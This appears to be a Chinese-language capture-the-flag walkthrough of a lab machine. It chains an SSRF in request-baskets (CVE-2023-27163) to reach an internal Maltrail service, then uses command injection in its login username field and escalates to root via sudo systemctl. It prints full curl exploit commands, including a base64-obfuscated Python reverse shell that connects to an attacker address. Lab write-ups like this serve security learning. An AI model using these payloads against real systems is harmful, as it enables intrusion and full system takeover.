先扫描一下



访问55555端口，这里显示服务为request-baskets，版本为Version: 1.2.1 。

地址：https://github.com/darklynx/request-baskets

查看git地址，看介绍Request Baskets 是一个 Web 服务，用于收集任意 HTTP 请求并通过 RESTful API 或简单的 Web UI 检查它们。




可以通过建立Basket，然后访问给出的url，后台会显示出请求的详情。



搜一下有无可利用的漏洞，存在一个[SSRF](https://notes.sjtu.edu.cn/s/MUUhEymt7) CVE-2023-27163。利用方式如下，post中的forward_url即可以触发SSRF。

```bash
curl -X POST -d '{"forward_url": "http://10.10.16.10:2333","proxy_response": false,"insecure_tls": false,"expand_path": true,"capacity": 250}' http://10.10.11.224:55555/api/baskets/master    
```

在本地监听2333，post请求发送后本地收到请求。说明存在SSRF。



然后，很自然的就想到利用ssrf去请求80端口。

```bash
 curl -X POST -d '{"forward_url": "http://127.0.0.1:80","proxy_response": false,"insecure_tls": false,"expand_path": true,"capacity": 250}' http://10.10.11.224:55555/api/baskets/test3 
```

然后访问http://10.10.11.224:55555/test3 ，触发SSRF，但是没有反应



这里卡了很久，以为是要利用无回显的SSRF，一直没有找到利用办法。


后来才发现在post请求的时候有个参数`proxy_response`，把该参数设置为True就能触发回显。或者在UI界面打开。(其实刚才的post请求就是新建一个basket，post data就是这几个设置。)




然后就比较简单了，返回的一个服务，maltrail



然后搜索到[maltrail os命令注入](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)漏洞。

利用[revshells](https://www.revshells.com/)构造反弹shell,本地监听2333端口，继续利用命令注入漏洞注入。

```bash
curl 'http://10.10.11.224:55555/test3/login' --data 'username=;`echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgo
IjEwLjEwLjE2LjEwIiwyMzMzKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiL2Jpbi9iYXNoIikn"|base64 -d|sh`'

```




得到user flag



## 提权

先看suid



然后sudo



查看[gtfobins](https://gtfobins.github.io/gtfobins/systemctl/)，可以直接利用systemctl



拿到 root 权限


